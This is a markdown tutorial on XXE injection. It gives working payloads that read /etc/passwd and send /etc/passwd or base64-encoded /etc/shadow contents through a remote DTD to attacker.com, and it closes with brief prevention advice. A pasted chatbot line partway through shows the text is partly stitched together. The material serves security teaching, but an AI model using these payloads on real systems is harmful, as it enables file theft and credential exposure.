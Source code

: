 # XML External Entity (XXE) Injection — Complete Guide

---

## What is XXE?

**XML External Entity (XXE)** is a vulnerability that occurs when an XML parser allows the processing of external entities. This can allow attackers to:

* Read local files
* Send HTTP requests from the server (SSRF)
* Exfiltrate data to external servers
* Perform denial-of-service (DoS) attacks using recursive entities

---

## XML Entities: Basic Concept

Entities are placeholders defined inside a `<!DOCTYPE>` declaration.

Example:

```xml
<!DOCTYPE data [
  <!ENTITY mydata "Hello">
]>
<root>
  <msg>&mydata;</msg>
</root>
```

This renders:

```xml
<msg>Hello</msg>
```

XML also supports external entities:

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

---

## Exploiting XXE

---

## 1. In-Band XXE (Direct Data Retrieval)

The server includes the contents of the referenced file in its response.

Payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE upload [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<upload>
  <file>&xxe;</file>
</upload>
```

Response:

```xml
<file>root:x:0:0:root:/root:/bin/bash...</file>
```

Best used when server responses are visible.

---

### 2. Out-of-Band (OOB) XXE (Blind Exfiltration)

Used when the server doesn’t return file contents directly. The attacker references a remote DTD file hosted on their server to leak data.

#### Step 1: XML Payload

```xml
<?xml version="1.0"?>
<!DOCTYPE upload SYSTEM "http://attacker.com/malicious.dtd">
<upload>
  <file>&exfil;</file>
</upload>
```

#### Step 2: Remote DTD (malicious.dtd)

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
```

This causes the XML parser to send the contents of `/etc/passwd` to the attacker's server via HTTP.

---

### Base64 Exfiltration Variant

Some files contain newlines or special characters. Encoding them makes exfiltration more reliable.

Remote DTD:

```dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/shadow">
<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
```

This sends a base64-encoded version of the file to the attacker.

---

Absolutely. Here's a clearer, practical version of the explanation — now including an example of **what fails** if you don't use parameter entities, and **why**.

---

### Why Use Parameter Entities (`%`)

#### The Basics

* **General entities** (`&name;`) are used **inside XML content**, like:

  ```xml
  <data>&xxe;</data>
  ```

* **Parameter entities** (`%name;`) are used **inside DTDs**, not XML content.
* Only parameter entities can be used to **construct or inject other entities dynamically** during DTD parsing.

#### Why It Matters

When performing an **XXE attack** — especially an **out-of-band (OOB)** attack (exfiltrating data via HTTP) — you often need to:

1. Load a local file (like `/etc/passwd`)
2. Inject that file’s contents into a remote URL (like `http://attacker/?x=...`)
3. Trigger the request via entity expansion

#### What Happens If You Don’t Use Parameter Entities

Here’s a **broken example** that looks like it should work, but fails:

```xml
<!DOCTYPE upload [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
  <!ENTITY exfil SYSTEM "http://attacker.com/?x=&xxe;">
]>
<upload>
  <file>&exfil;</file>
</upload>
```

**Problem:**

* `&xxe;` is a **general entity**
* You’re trying to use it **inside the SYSTEM URL** of another entity (`exfil`)
* This is **not allowed** by the XML spec
* The parser will treat it as a **literal string**, or throw an error

**Result:**
The server sends:

```console
GET /?x=&xxe;
```

instead of:

```console
GET /?x=root:x:0:0:root:/root:/bin/bash
```

No file content is leaked. The attack fails.

---

### Prevention

* Disable DTD processing in the XML parser
* Use secure libraries (e.g., `defusedxml` in Python)
* Validate XML input strictly
* Isolate XML-handling systems from sensitive files or external networks

---

## Summary Table

| Attack Type          | Description                      | Exfiltration | Visible to Attacker   |
| -------------------- | -------------------------------- | ------------ | --------------------- |
| In-Band XXE          | Returns file content in response | Yes          | Yes                   |
| Out-of-Band XXE      | Sends data to remote server      | Yes          | No (unless monitored) |
| DoS (Billion Laughs) | Resource exhaustion attack       | No           | No                    |

---
